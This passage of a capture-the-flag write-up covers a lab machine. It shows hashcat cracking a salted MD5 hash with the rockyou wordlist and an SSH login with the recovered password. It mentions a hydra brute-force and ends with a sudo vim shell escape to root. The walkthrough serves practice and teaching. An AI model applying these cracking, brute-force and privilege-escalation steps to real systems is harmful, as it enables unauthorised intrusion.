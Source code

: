```
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:<insertpasswordhere>
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5($salt.$pass)
Hash.Target......: 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2
Time.Started.....: Tue Aug 18 10:38:17 2020 (0 secs)
Time.Estimated...: Tue Aug 18 10:38:17 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   838.8 kH/s (2.23ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3072/14344385 (0.02%)
Rejected.........: 0/3072 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> dangerous

Started: Tue Aug 18 10:38:14 2020
Stopped: Tue Aug 18 10:38:18 2020

```
Now I can use mitch's password to gain ssh access. I also tried to let hydra ssh brute force and came up with the same answer - bonus :)

## ssh
```
$ ssh mitch@10.10.175.42 -p 2222
mitch@10.10.175.42's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Tue Aug 18 12:43:35 2020 from 10.9.12.213
$ ls
user.txt
$ cat user.txt
<insert user flag here>
```
Lets find out what we can do to escalate privalage. So I can run vim as root. As always a quick check with GTFObins which gave me the first hints to gain root.
```
$ sudo -l
User mitch may run the following commands on Machine:     
    (root) NOPASSWD: /usr/bin/vim
$ sudo vim -c ':!/bin/sh'    
```